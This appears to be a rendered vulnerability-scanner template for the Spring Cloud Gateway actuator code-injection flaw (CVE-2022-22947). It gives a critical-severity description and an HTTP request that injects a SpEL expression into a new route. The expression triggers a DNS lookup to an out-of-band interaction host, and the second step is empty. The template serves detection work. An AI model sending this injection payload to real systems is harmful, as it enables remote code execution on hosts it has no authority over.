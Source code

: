 - status
  1. 200

---

# Spring Cloud Gateway Code Injection

## Description

- Applications using Spring Cloud Gateway prior to 3.1.1+ and 3.0.7+ are vulnerable to a code injection attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.
- severity - critical
- tags - cve,cve2022,apache,spring,vmware,actuator,oast,kev

## Requests

### Step - 1

```
POST /actuator/gateway/routes/{{randstr}} HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/{{randstr}}/**"
      }
    }
  ],
  "filters": [
    {
      "name": "RewritePath",
      "args": {
        "_genkey_0": "#{T(java.net.InetAddress).getByName(\"{{interactsh-url}}\")}",
        "_genkey_1": "/${path}"
      }
    }
  ],
  "uri": "{{RootURL}}",
  "order": 0
}

```

### Step - 2
